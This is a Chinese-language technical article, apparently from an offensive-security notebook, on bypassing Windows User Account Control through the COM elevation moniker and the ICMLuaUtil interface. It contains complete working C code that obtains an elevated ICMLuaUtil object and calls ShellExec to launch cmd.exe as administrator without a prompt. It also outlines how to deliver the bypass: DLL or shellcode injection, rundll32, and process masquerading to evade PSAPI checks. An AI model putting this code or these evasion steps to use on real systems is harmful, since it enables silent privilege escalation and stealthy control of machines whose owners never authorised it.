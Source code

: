 # 通过com组件BypassUAC

## COM组件简介

> COM component（COM组件）是微软公司为了计算机工业的软件生产更加符合人类的行为方式开发的一种新的软件开发技术。在COM构架下，人们可以开发出各种各样的功能专一的组件，然后将它们按照需要组合起来，构成复杂的应用系统。

com组件本质上是二进制文件\(dll、exe,在windows系统内\),其调用方法与c++的类相似，程序可以通过被称为CLSID\(全局标识符\)作为索引在注册表内找到具体的二进制文件，这篇文章只会介绍应用方法，具体的逆向分析会在之后的文章内详细解释\(等公司买正版ida,现在用的盗版就不拿出来丢人了\)。

windows提供了一种com组件提权的方法，其原意大概是为了方便开发，所以当这种提提权方法的调用者是拥有微软签名的合法程序时\(其本质是校验PEB\)，会忽略uac弹窗，这也为了我们利用该技术埋下了隐患。

```text
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void ** ppv)
{
    BIND_OPTS3 bo;
    WCHAR  wszCLSID[50];
    WCHAR  wszMonikerName[300];

    StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID)/sizeof(wszCLSID[0])); 
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName)/sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
    if (FAILED(hr))
        return hr;
    memset(&bo, 0, sizeof(bo));
    bo.cbStruct = sizeof(bo);
    bo.hwnd = hwnd;
    bo.dwClassContext  = CLSCTX_LOCAL_SERVER;
    return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```

在com组件中，有一个名为ICMLuaUtil的接口，这个接口提供了一个名为ShellExec的方法，顾名思义，可以执行任意传入的命令，如果我们能用提权的ICMLuaUtil接口调用ShellExec，那么我们就能获得一个不受限的管理员令牌。

## 流程

1. 初始化com库
2. 创建提升权限的ICMLuaUtil接口
3. 调用ICMLuaUtil的ShellExec方法
4. 弹出一个高权限的calc\(串戏了\)。

## 代码

```text
#include "BypassUAC.h"

HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	memset(&bo, 0, sizeof(bo));

	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;


	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);

	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;	
	}
}

int main() {
	CoInitialize(NULL);

	CMLuaUtilBypassUAC((LPWSTR)L"c:\\windows\\system32\\cmd.exe");
	CoUninitialize();
	return 0;
}
```



![](../.gitbook/assets/image%20%28141%29.png)

## 利用方法

### shellcode&dll注入

把这个代码写成一个dll，然后通过进程注入的方式获得一个合法的进程环境。

shellcode注入和dll注入差不多，只不过注入的具体dll被打成了shellcode，我记得有这么一个开源项目可以做到，原理类似于在dll二进制代码前写一个加载器

### rundll32

![](../.gitbook/assets/image%20%28143%29.png)

rundll32是windows提供的一个合法exe，它能把一个单独的dll拉起来成为一个进程，这也起来的进程也被windows视为合法。

### 伪装进程

原理我之前的文章写过[fakecommandline](../defense-evasion/fake-commandline.md)，这篇文章的基础上再添加对ldr的伪装，就能绕过PSAPI对进程的校验，具体的代码三号学生大佬写过[this](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87COM%E7%BB%84%E4%BB%B6IFileOperation%E8%B6%8A%E6%9D%83%E5%A4%8D%E5%88%B6%E6%96%87%E4%BB%B6/)。

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/com/the-com-elevation-moniker?redirectedfrom=MSDN" %}

{% embed url="https://www.cnblogs.com/ndyxb/p/12770289.html" %}







